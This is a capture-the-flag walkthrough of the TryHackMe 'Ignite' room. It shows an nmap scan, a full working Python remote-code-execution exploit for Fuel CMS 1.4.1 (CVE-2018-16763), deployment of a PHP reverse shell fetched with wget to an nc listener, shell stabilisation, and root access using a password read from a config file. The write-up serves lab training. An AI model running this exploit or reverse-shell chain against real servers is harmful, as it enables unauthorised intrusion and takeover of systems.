 # [Ignite TryHackMe Writeup/Walkthrough][1]
A new start-up has a few issues with their web server.


#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

Command -> `nmap -sV -sC -Pn <IP>`

```
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 10.10.112.107
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed.
Nmap done: 1 IP address (1 host up) scanned in 10.80 seconds
```

Let's check the website as we have `port 80` open.

It seems like a default page of **Fuel CMS**. I found two interesting things here.

1. Location of the database which can be handy later, provided if I got the access.

![DataBase Location](images/database_credentials.png)

2. Login Credentials for admin and a web panel.

![Login Credentials](images/web_login.png)
> I found nothing interesting in the web panel.

Let's search for exploit already available for **Fuel CMS**. You can look for this online on CVE Details or alternatively you can look into the database available in Kali Linux. CMD -> `searchsploit fuel cms`

```
----------------------------------------------------------- --------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- --------------------------
- fuel CMS 1.4.1 - Remote Code Execution (1)               | linux/webapps/47138.py
- Fuel CMS 1.4.1 - Remote Code Execution (2)               | php/webapps/49487.rb
- Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)     | php/webapps/48741.txt
- Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authen | php/webapps/48778.txt
----------------------------------------------------------- --------------------------
Shellcodes: No Results
```

*Remote Code Exceution via Python* looks promising. This files are located under `/usr/share/exploitdb/exploits/`. Get a copy of the file and `gedit` or `nano` to edit the file.

![Copy Exploit](images/copy_exploit.png)

The changes you need to make here is the
1. `URL` will be IP of the machine.
2. comment the line where it says `proxy` using **#** and remove `, proxy` from the line where it is `r = ..`. The below code is already edited.

```
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://10.10.112.107"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	# proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

Run the file using python -> `python 47138.py`

![Got SHell](images/got_shell.png)
> Got Shell as `www-data`.

You can get the `user_flag` easily. But this shell is unstable. Let's get a `netcat` shell using `php backdoor.` PHP Reverse Backdoor is available in `/usr/share/webshells/php-reverse-shell.php`.

Get the file as same way we did the exploit. `gedit` or `nano` the file and change the `$ip` to your **TryHackMe's IP** and `$port` to `4444` (you can keep the port same).

Now we need to transfer the file to the server. For that start a local server, using `python3 -m http.server`.

To get download the shell, type -> `wget http://<YOUR_IP>:8000/php-reverse-shell.php`. The file will be downloaded in the web server.

Start a listener using `nc -lvnp 4444` and go the website -> `http://<IP>/php-reverse-shell.php` and you will have the access.

![Got Access](images/got_access.png)

Further process to stabilize the shell is

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'`
2. Press `Ctrl + Z`.
3. `stty raw -echo;fg`

You will now have a stable shell with additional functionality.  

Now we can get the user flag.

![User Flag](images/user_flag.png)

### Privilege Escalation

I tried many methods, looked for `sudo -l`, found noting much. Then I check the file location with the database credentials and found the password for `root` user. File location is the ***Step 2*** on the website. The one with configuration file.

![Root Password](images/root_password.png)

To be root user, type, `su root` and the *password* you got form above file.

![Root User](images/root_user.png)

You have the root access. You know what to do next :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.png)

[1]: https://tryhackme.com/room/ignite
[2]: https://www.hackhunt.in/search/label/NmapsM
